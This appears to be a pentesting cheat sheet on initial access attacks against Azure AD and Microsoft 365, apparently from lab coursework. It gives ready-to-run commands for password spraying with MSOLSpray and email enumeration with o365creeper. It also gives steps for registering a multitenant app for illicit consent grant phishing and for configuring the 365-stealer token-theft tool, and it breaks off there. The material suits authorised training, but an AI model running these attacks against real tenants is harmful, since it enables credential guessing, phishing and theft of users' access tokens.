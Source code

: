 # Initial access attacks

* [Password spraying](#Password-spraying)
* [Illicit Consent Grant phishing](#Illicit-Consent-Grant-phishing)
* [Insecure file upload](#Insecure-file-upload)
* [Server Side Template Injection](#Server-Side-Template-Injection)
* [OS Command injection](#OS-Command-injection)
* [Storage account](#Storage-account)
* [Phishing Evilginx2](#Phishing-Evilginx2)

## Password spraying
- https://github.com/dafthack/MSOLSpray
- https://github.com/ustayready/fireprox
```
. C:\AzAD\Tools\MSOLSpray\MSOLSpray.ps1
Invoke-MSOLSpray -UserList validemails.txt -Password <PASSWORD> -Verbose
```

#### Find valid emails
- Explained in Recon or use the command below
```
C:\Python27\python.exe o365creeper.py -f emails.txt -o validemails.txt
```

## Illicit Consent Grant phishing
#### Create a application
- Login to the Azure portal and in the left menu go to 'Azure Active Directory' --> 'App registrations' and click 'new registration'
- Set a application name and choose 'Accounts in any organizational directory (Any Azure AD Directory - Multitenant'
- Use the URL of the student VM in the URI (https://xx.xx.xx.xx/login/authorized)
- In the left menu go to 'Certificates & Secrets' and create a new client secret and copy it.
- In the left menu go to 'API permissions' and add the 'user.read' and 'User.ReadBasic.All' for the Microsoft Graph.

#### Check if users are allowed to consent to apps
```
Import-Module AzureADPreview.psd1

#Use another tenant account
$passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("<USERNAME>", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole

#output should be
ManagePermissionGrantsForSelf.microsoft-user-default-legacy
```

#### Setup the 365-stealer
- Copy the 365-stealer directory to the xampp directory
- Edit the 365-stealer.py and edit the CLIENTID (client application id), REDIRECTEDURL and CLIENTSECRET (From the certificate)
